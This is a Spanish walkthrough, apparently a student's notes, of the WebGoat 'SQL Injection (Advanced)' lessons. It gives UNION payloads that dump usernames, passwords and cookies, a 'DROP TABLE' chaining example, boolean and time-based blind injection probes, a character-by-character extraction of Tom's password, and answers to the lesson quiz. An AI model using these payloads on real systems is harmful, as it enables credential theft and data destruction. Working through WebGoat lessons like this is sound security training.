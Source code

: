 # A1 Injection

La sección A1 de webgoat se refiere a las inyecciones SQL que son utilizadas para hacer que la aplicación se comporte de una manera no prevista por el desarrollador.

##### URL para ingresar a webgoat
+ http://localhost:8080/WebGoat/

# SQL Injection (Advanced)

## Preámbulo
Existen diversos carácteres especiales y sentencias que se pueden utilizar en SQL:

**Comentarios:**
```sql
/* */ 	 are inline comments
-- , # 	 are line comments

Example: SELECT * FROM users WHERE name = 'admin' --AND pass = 'pass'
```

**Encadenamiento de comandos:**
```sql
-- ;        allows query chaining

SELECT * FROM users; DROP TABLE users;
```

**Concatenación de cadenas**
```sql
-- ',+,||	 allows string concatenation
-- Char()	 strings without quotes

SELECT * FROM users WHERE name = '+char(27) OR 1=1
```

**Operador UNION**
Este operador se utiliza para combinar resultados de dos combinaciones SELECT. Se debe considerar lo siguiente:
+ El número de columnas en cada declaración debe ser el mismo
+ Los tipos de datos deben coincidir 
+ La sentencia `UNION ALL` permite resultados duplicados

```sql
SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;
```

**Operador JOIN**
Combinar filas de dos o más tablas, en función de una columna relacionada.
```sql
SELECT * FROM user_data INNER JOIN user_data_tan ON user_data.userid=user_data_tan.userid;
```

## Ejercicio 1 (3)

#### Obten toda la información de las tablas

Solución
```sql
'SELECT * FROM user_system_data ;--
```

Otra solución:
```sql
' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;--
```

Otra solución:
```sql
' SELECT first_name, last_name, cookie FROM user_data UNION ALL SELECT user_name, password, cookie FROM user_system_data;--
```

#### Cuando lo obtengas responde cuál es el password de Dave
![Ejercicio 1](img2/ejercicio1.jpeg)
* El password es: `passW0rD`

## Blind SQL injection (Inyección SQL a ciegas u oculto)
Este es un tipo de inyección que hace preguntas de `verdadero` o `falso` y define el resultado en función de las respuestas del servidor. Este tipo de ataque se utiliza cuando el desarrollador no muestra los mensajes tipicos de error, pero no suprime la vulnerabilidad.
+ SQL basado en contenido
+ SQL basado en tiempo

**Ejemplos:**

Suponiendo que tienes un sitio con la url `https://my-shop.com?article=4 ` puedes deducir que por detŕas corre una sentencia del siguiente estilo

```sql
SELECT * FROM articles WHERE article_id = 4
```

Podemos explotar esta vulnerabilidad ingresando `https://shop.example.com?article=4 AND 1=1` que eventualmmente se interpretará como:

```sql
SELECT * FROM articles WHERE article_id = 4 and 1 = 1
```
+ Si esto nos sigue devolviendo la misma página que cuando se usaba `https://my-shop.com?article=4 ` significa que el sitio es propenso a inyección SQL a ciegas
+ Si nos regresa un `page not found` es probable que no sea vulnerable

Podemos aprovechar la sentencia anterior mediante `https://shop.example.com?article=4 AND substring(database_version(),1,1) = 2`. Una vez que sabemos que se puede explotar esto es solamente cuestión de creatividad y suerte de que la BD no esté correctamente configurada para localizar tablas de la BD sensibles. 

También podemos realizar una inyección basada en tiempo:
+ `article = 4; sleep(10) --`

## Ejercicio 2 (5)

#### Haz login como Tom

En este ejercicio se nos pide que hagamos login como el usuario Tom. Interactuando con el campo login podemos observar que:
+ Si tratamos de registrar a el usuario `tom` 
    + User tom already exists please try to register with a different username.
+ Si tratamos de registrar a el usuario `tom' AND '1' = '1`
    + User {0} already exists please try to register with a different username.
+ Si tratamos de registrar a el usuario `tom' AND '1' = '2`
    + User tom' AND '1' = '2 created, please proceed to the login page.

Por lo que podemos inferir que cada que nos diga que `User {0} already exists please try to register with a different username.` significará que hemos inferido algo correcto sobre la consulta. Ahora, hay que utilizar esto para buscar a el password.

Podemos pensar que existe un campo llamado `password` en que se almacenan las contraseñas.

Y entonces introducir mediante un `substring(password,1,1)` obtener la primera letra del password.

**Proceso de deducción** (Note que se cambiar los parametros de `substring`)

1. Probamos con **t** de **tom**
    + `tom' AND substring(password,1,1)='t`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)
2. Probamos con **to** de **tom**
    + `tom' AND substring(password,1,2)='to`
    + Nos devuelve falso (`User tom' AND substring(password,2,2)='o created, please proceed to the login page.`)
3. Probamos con **th** de **the** (Por *thepassword* o algo por el estilo)
    + `tom' AND substring(password,1,2)='th`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)
3. Probamos con **the** de **he**
    + `tom' AND substring(password,1,3)='the`
    + Nos devuelve falso (`User tom' AND substring(password,2,2)='o created, please proceed to the login page.`)
4. Probamos con **this** de **this** (thisisthepassword) o algo así
    + `tom' AND substring(password,1,4)='this`
    + Nos devuelve verdadero (`User {0} already exists please try to register with a different username.`)

Siguiendo con el mismo proceso, (palabra comun) llegamos hasta este punto
1. Inferir `this`
1. Inferir `thisis`
1. Inferir `thisisthe`
1. Inferir `thisisthepassword`
    + Probamos y no es el password :c
1. Inferir `thisisthepasswordfor`
1. Hasta llegar a `thisisasecretfortomonly`

Donde finalmente el password resulta ser:
+ `thisisasecretfortomonly`

Un ideal debería ser programar una herramienta que haga todo este proceso por nosotros.


## Ejercicio 3 (6)

#### Responder correctamente el test

**¿Cuál es la diferencia entre una declaración preparada y una declaración?**
+ A statement has got values instead of a prepared statement
+ Una declaración tiene valores en lugar de una declaración preparada

**¿Cuál de los siguientes caracteres es un marcador de posición para las variables?**
+ ?

**¿Cómo pueden las declaraciones preparadas ser más rápidas que las declaraciones?**
+ Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.
+ Las declaraciones preparadas son compiladas una vez por el sistema de gestión de la base de datos en espera de entrada y se compilan previamente de esta manera.

**How can a prepared statement prevent SQL-Injection?**
+ Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.
+ Los marcadores de posición pueden evitar que la entrada de los usuarios se adjunte a la consulta SQL, lo que resulta en una separación de código y datos.

**Prepared statements always read inputs literally and never mixes it with its SQL commands.**
+ The database registers 'Robert' ); DROP TABLE Students;--'.
+ La base de datos registra literalmente 'Robert' ); DROP TABLE Students;--'.